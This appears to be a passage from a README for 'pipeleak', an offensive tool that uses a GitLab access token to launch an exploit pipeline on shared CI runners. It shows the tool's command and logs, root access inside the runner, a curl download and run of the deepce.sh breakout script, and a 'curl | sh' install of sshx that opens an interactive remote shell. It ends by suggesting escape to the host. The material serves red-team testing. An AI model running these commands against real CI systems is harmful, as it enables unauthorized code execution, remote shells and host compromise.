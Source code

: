 ```bash
        - saas-linux-small-amd64

2024-09-26T14:32:26+02:00 INF Create you project and .gitlab-ci.yml manually
2024-09-26T14:32:26+02:00 INF Done, Bye Bye 🏳️‍🌈🔥

# Automated
$ pipeleak runners --token glpat-[removed]  --gitlab https://gitlab.com -v exploit --tags saas-linux-small-amd64 --shell 
2024-09-26T14:33:48+02:00 DBG Verbose log output enabled
2024-09-26T14:33:49+02:00 INF Created project name=pipeleak-runner-exploit url=https://gitlab.com/[removed]/pipeleak-runner-exploit
2024-09-26T14:33:50+02:00 INF Created .gitlab-ci.yml file=.gitlab-ci.yml
2024-09-26T14:33:50+02:00 INF Check pipeline logs manually url=https://gitlab.com/[removed]/pipeleak-runner-exploit/-/pipelines
2024-09-26T14:33:50+02:00 INF Make sure to delete the project when done
2024-09-26T14:33:50+02:00 INF Done, Bye Bye 🏳️‍🌈🔥
```

If you check the log output you can see the outputs of the commands defined in `script` and an [sshx](https://sshx.io/) Url which gives you an interactive shell in your runner.

```bash
$ echo "Pipeleak exploit job"
Pipeleak exploit job
$ id
uid=0(root) gid=0(root) groups=0(root)
$ whoami
root
$ curl -sL https://github.com/stealthcopter/deepce/raw/main/deepce.sh -o deepce.sh
$ chmod +x deepce.sh
$ ./deepce.sh

==========================================( Colors )==========================================
[+] Exploit Test ............ Exploitable - Check this out
[+] Basic Test .............. Positive Result
[+] Another Test ............ Error running check
[+] Negative Test ........... No
[+] Multi line test ......... Yes
[removed]

$ curl -sSf https://sshx.io/get | sh -s run
↯ Downloading sshx from https://s3.amazonaws.com/sshx/sshx-x86_64-unknown-linux-musl.tar.gz
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 2971k  100 2971k    0     0  7099k      0 --:--:-- --:--:-- --:--:-- 7109k
↯ Adding sshx binary to /tmp/tmp.zky0trhv9m
↯ Done! You can now run sshx.
  sshx v0.2.5
  ➜  Link:  https://sshx.io/s/Vg[removed]
  ➜  Shell: /bin/bash
```

From the interactive shell, you can now try breakout to the host, or find runner misconfigurations e.g. host mounted volumes.

Happy Hacking
